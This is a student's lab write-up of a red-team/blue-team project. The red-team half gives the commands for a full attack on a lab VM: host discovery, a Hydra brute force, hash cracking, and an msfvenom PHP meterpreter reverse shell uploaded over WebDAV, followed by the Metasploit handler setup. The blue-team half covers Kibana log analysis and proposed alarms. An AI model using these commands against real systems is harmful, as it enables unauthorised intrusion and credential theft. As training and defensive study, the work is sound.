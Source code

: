 # Red-Team-VS-Blue-Team-Project
Acted as a red team to attack a vulnerable VM within my environment, ultimately gaining root access to the machine. Acted as Blue Team to use Kibana to review logs taken during the attack implemented as the red team.

 # Red Team
- <ins>Ifconfig </ins> to find out network IP address and network range ![ifconfig](https://user-images.githubusercontent.com/61332852/137389108-3288b38b-5fcd-497a-878f-206fe37f54f1.png)

- Netdiscover -r 192.168.1.255/16 Since we know the netmask is 255.255.255.0 that would be 16 bits of the subnet so then we can run the netdiscover command to discover other hosts on the network. ![netdiscover](https://user-images.githubusercontent.com/61332852/137389276-f4aca53a-40ea-41ac-a4b7-9ab04459d79a.png)

     - After running the command we can conclude that there are 3 hosts within the network with the IPs of 192.168.1.1 , 192.168.1.100 and 192.168.1.105.
     - Now we need to discover what machine we need to get access to 
- After checking up on the IPs we can conclude that 192.168.1.105 ended up being a web server.   
- After checking the website we see open directories that show company information showing that this is a vulnerability in itself.
 ![index](https://user-images.githubusercontent.com/61332852/137389410-4a1dec9f-30c7-4052-9a34-50fb89184500.png)
- And while exploring through the files we see an important directory being mentioned by the name of a secret_folder. Which can end up containing PII or important company documents. 
- After going in the URL bar and typing in the secret folder found 192.168.1.105/company_folders/secret_folder it then shows a login prompt meant for “Ashton” only. 

   ![ashton](https://user-images.githubusercontent.com/61332852/137389749-5b0f9dec-6d97-4d29-af2c-81b454318207.png)

- After getting a username for a potential login we can then try to brute force the login by using hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder command. 
![f2ef2a23bee60b46f58307ca124d2678](https://user-images.githubusercontent.com/61332852/137389842-76fca522-77e3-4a9d-9dac-ca31b880ea3e.png)
   - After using the command we successfully brute force the account and was able to retrieve the login information for ashton ![84d82a9a9e4648086a79b066c3362ec5](https://user-images.githubusercontent.com/61332852/137390073-bf6a0604-b024-4723-89a7-38e77bde1c13.png)

- Logging in the account then brings us to a personal note Ashton then made for himself containing other important information
 ![cc397b4dc2076647d79196d97e9632fe](https://user-images.githubusercontent.com/61332852/137390404-6b85bb05-ec5a-460e-a194-31611558d358.png) 
   - A note that hes going to be using Ryans account
   - After researching more on the web server we found that Ryan is the CEO of the company.
   - Hinting knowing that Ashton knows his login information with the hash giving at the top of the screen

- Next step is to figure out the login to the file directory dav://192.168.1.105/webdav/ using the hashed password at the top of Ashtons note. Using the website https://crackstation.net/  
   - Cracking the hash we find the password is linux4u
    ![ac297f568253612ff55d38fdf157547b](https://user-images.githubusercontent.com/61332852/137390969-4da74fb4-9592-4fd2-9844-2e22bc2a5865.png)

- Getting the login information to the company directory we know can exploit getting into the company system since the server has an open port 80 by creating a reverse shell script. The command being msf venom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > newshell.php

![b5607ffdbb52b0186be7de39a308e88a](https://user-images.githubusercontent.com/61332852/137391072-15001d7a-24ad-431d-9b67-cf39a58c789e.png)

- Once the reverse shell script is created we can now upload it to the shared directory to run it.
 ![4acac4ed99b11426e3e93855ce8a74f8](https://user-images.githubusercontent.com/61332852/137391146-79ec5c42-adaf-45bb-bfe1-25fd537ddadc.png)

- Before we run it we will want to run Metasploit to listen to the reverse shell on our host machine to access it remotely.
- The commands would be used in this order to begin the listening 
   - Msfconsole -q
   - Use exploit/multi/handler
   - Set payload php/meterpreter/reverse_tcp 
      - (same payload script as the one we copied to the shared directory)
   - Set LHOST 192.168.1.90
      - Ip of machine we want to listen on 
   - Set LPORT 4444
      - Port we want to listen on
   - Show options 
      - To see if all the settings we had set are correct
   - Run
      - To execute the listening process
 
 ![bc35031f4a1536c75c80faa31941456e](https://user-images.githubusercontent.com/61332852/137391217-c0c8f352-de04-4f7c-b3fb-5722b93771b1.png)


- Once this is completed we can now run the actual script through the shared directory dav://192.168.1.105/webdav which then after will then open up meterpreter on our host machine to show that we have now established connection 
![8316e2c4870b99011bd9c617fa3932fe](https://user-images.githubusercontent.com/61332852/137391273-63d35e21-d842-41fb-b658-6eb79a68052e.png)

   - After having the session open we can run basic commands to grab any other additional information about the system we got access to like getuid. We can also open up a shell terminal if needed by using the command shell.
- We can now run the command find -iname flag.txt to grab the flag we are looking for one the target machine.

 # Blue Team
- Analysis: Identifying the port scan
   - The port scan occurred on October 4th 2021 at 11:52PM
   - 254,496 packets were sent from the machine 192.168.1.90
   - Since there is such high network traffic when it should be idle it can be a sign of a port scan 
![85f85cd01314b79528146ba25e644eb1](https://user-images.githubusercontent.com/61332852/137392262-bab44589-0733-471d-a27c-2d3355f41d78.png)



- Analysis: Finding the Request for the hidden directory 
   - 19,227 requests were made to this URL path. This path was requested by the IP address of 192.168.1.90
   - The files that were requested had a hash that contained Ryan login credentials 
![c4273713c081053f537644eed454f141](https://user-images.githubusercontent.com/61332852/137392339-aba74b30-013d-4607-9dc1-e29d9dbfd67a.png)



- Analysis: uncovering the brute force attack
   - 19,227 requests was made during the brute force attack to access the secret folder directory
   - 16,101 requests were made before the password was used correctly
 ![e06114f629b2d5b8dd88724f3a6a59ac](https://user-images.githubusercontent.com/61332852/137392400-cc734f1b-c336-4f5a-9ec7-d629a092452f.png)


- Analysis: Finding the WebDAV Connection
   - 180,859 requests were made to this directory 
   - The files that were requested was the passwd file and also the php file used to initiate the reverse shell
![82ff51532e66b15c26075f0aa28127de](https://user-images.githubusercontent.com/61332852/137392456-7a4c8fc2-3a3e-4808-86be-c40ce0c5ca8f.png)


# Blue Team Proposed Alarms and Mitigation Strategies
- Blocking the Port Scan
  - Alarm
    - An alert to be sent to the team for a 1000+ port connections within a hour
  - System Hardening 
    - To run multiple port scans to see what ports are being opened and if any are being used maliciously
    - To make sure Firewall is up to date and to diminish any connections to the host

- Finding the Request for the Hidden Directory
  - Alarm
    - For an alert on the system to detect if certain files and directory within the system are being accessed without permission
    - If these private files and directories are trying to be accessed more than 3 times the alert would then be sent to the team
  - System Hardening
    - To encrypt sensitive data and for files to not be shared with users outside the company being in this situation.
    - To make a whitelist to people who can and cant use these files and directories

- Mitigation: Preventing Brute Force Attacks
  - Alarm
    - I would implement a failed login alert to show a certain amount of times the login has failed 
    - If the HTTP error code 401 is occurring multiple times an alert would be sent as well
    - If there is more than 5 failed login attempts the alarm would be triggered
  - System Hardening
    - a lock out after to many attempts of logging in to prevent a brute force attack like the one implemented
    - To require employees to have a complex password to mitigate the chances of getting a login attempt correctly

- Mitigation: Detecting the WebDav Connection
  - Alarm
    - An alert would be made to send the IP addresses trying to get access to webdav  
  - System Hardening
    - To whitelist certain IP addresses so only certain machines can access WebDav

- Mitigation: Identifying Reverse shell Uploads
  - Alarm
    - An alert can be shown when a file is being uploaded to the webdav folder and also the type of file being copied.
  - System Hardening
    - To mitigate the attack, permissions on the folder itself can be changed to read only so this prevents any malicious files being uploaded to the folder.
    - To whitelist IP addresses that can access the webdav folder 



